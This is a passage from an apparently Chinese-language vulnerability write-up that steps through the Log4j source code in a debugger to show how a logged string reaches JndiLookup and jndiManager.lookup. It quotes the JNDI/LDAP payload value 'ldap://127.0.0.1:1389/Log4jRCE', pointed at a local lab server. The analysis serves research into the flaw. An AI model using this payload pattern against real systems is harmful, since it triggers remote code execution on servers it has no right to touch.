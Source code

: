 通过resolveVariable调用`lookup`

![image-20211210214939264](log4jrce/image-20211210214939264.png)

顺便研究一下`lookup`

这里

```
prefix = "jndi"
name = "ldap://127.0.0.1:1389/Log4jRCE"
lookup = {JndiLookup@2064} 
```

这里从`strLookupMap`的map里提取了jndi的lookup，然后在jndi的lookup方法里成功开花

![image-20211210222546722](log4jrce/image-20211210222546722.png)

`return Objects.toString(jndiManager.lookup(jndiName), null)`

这里就是`jndiManager.lookup('ldap://127.0.0.1:1389/Log4jRCE')`

![image-20211210222738049](log4jrce/image-20211210222738049.png)

![image-20211210222850555](log4jrce/image-20211210222850555.png)
